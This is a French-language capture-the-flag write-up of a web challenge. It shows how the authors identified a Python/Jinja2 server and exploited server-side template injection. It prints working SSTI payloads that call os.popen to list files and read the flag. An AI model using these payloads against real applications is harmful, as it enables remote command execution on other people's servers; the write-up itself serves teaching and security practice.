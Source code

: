 * * *
# Ginger Oh Jinja!
> (Web, 300 points )
---
## Challenge :
> http://hackerlab.bj:5000/

Une fois qu'on clique sur le lien du challenge, on accède à une page web présentant un formulaire.

<img src="Images/ginger.png">

Lorsqu'on met un contenu dans le champ de texte, ce contenu est encore affiché à l'utilisateur. L'objectif serait d'identifier la vulnérabilité à exploiter sur cette page web pour injecter un contenu malveillant. Nous avions fait une injection **SQL, XSS, de commande système** mais sans suite. Nous nous sommes donc lancés dans des recherches sur le nom du challenge **"Ginger Oh Jinja"**. Nous avions trouvé des contenus qu'il convient pas d'énumérer ici. Car ces derniers ne nous ont aidé en rien. Il a fallu restreindre les recherches à **"ginger oh jinja vulnerabilities"** pour obtenir des contenus intéressants. Nous sommes tombés sur un article parlant de la vulnérabilité **jinja2 SSTI**. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection. Cette vulnérabilité est rattachée aux applications web écrites en python et faisant usage du moteur de template **jinja2**. Essayons de voir si l'application web à attaquer est écrite en python.
```console
root@Y3HW3_Hack3r:~/HackerLab2019# curl -v http://hackerlab.bj:5000/
*   Trying 51.83.76.195:5000...
* TCP_NODELAY set
* Connected to hackerlab.bj (51.83.76.195) port 5000 (#0)
> GET / HTTP/1.1
> Host: hackerlab.bj:5000
> User-Agent: curl/7.66.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 231
< Server: Werkzeug/0.16.0 Python/3.7.4
< Date: Sat, 23 Nov 2019 16:32:43 GMT
< 
* Closing connection 0
<!DOCTYPE html><html><body>    <form action="/" method="post">      Your code name cyber-amazone!<br>      <input type="text" name="name" value="">      <input type="submit" value="Submit">    </form><h2>Hello ! </h2></body></html>
```

En regardant le ```header``` de la réponse reçue du serveur, on constate que le serveur hébergeant l'application web fonctionne avait du **python 3.7.4**. Conclusion évidente, notre application web à attaquer est écrite en python. 
D'après l'article, pour tester si l'application web était vulnérable à l'attaque ```jinja2 Server Side Template Injection``` , il suffit juste de mettre la chaîne {{7```*```7}} comme ```input``` pour voir si la sortie serait ```49```. Un test rapide effectué révèle que l'application était bel et bien vulnérable à cette attaque. Il faudra donc exploiter cette vulnérabilité pour injecter des commandes systèmes, pouvant nous permettre d'extraire le ```flag```. De recherches en recherches, nous sommes tombés sur ce writeup de challenge (https://ctftime.org/writeup/11014). En lisant ce writeup, nous obtenons l'injection pouvant nous permettre d'afficher les fichiers se trouvant à la racine de la page chargée. 

### [ Trouver un moyen pour afficher le flag ] 
 1. Afficher les **fichiers au répertoire courant** : ```{{url_for.__globals__.os.__dict__.popen('ls').read()}}```
 <img src="Images/ginger-2.png">
 
 2. Afficher le contenu du fichier **frferfrflag.txt** : ```{{url_for.__globals__.os.__dict__.popen('cat frferfrflag.txt').read()}}```
 <img src="Images/ginger-3.png">

```Flag ```: **CTF_TemplateBestInjector**
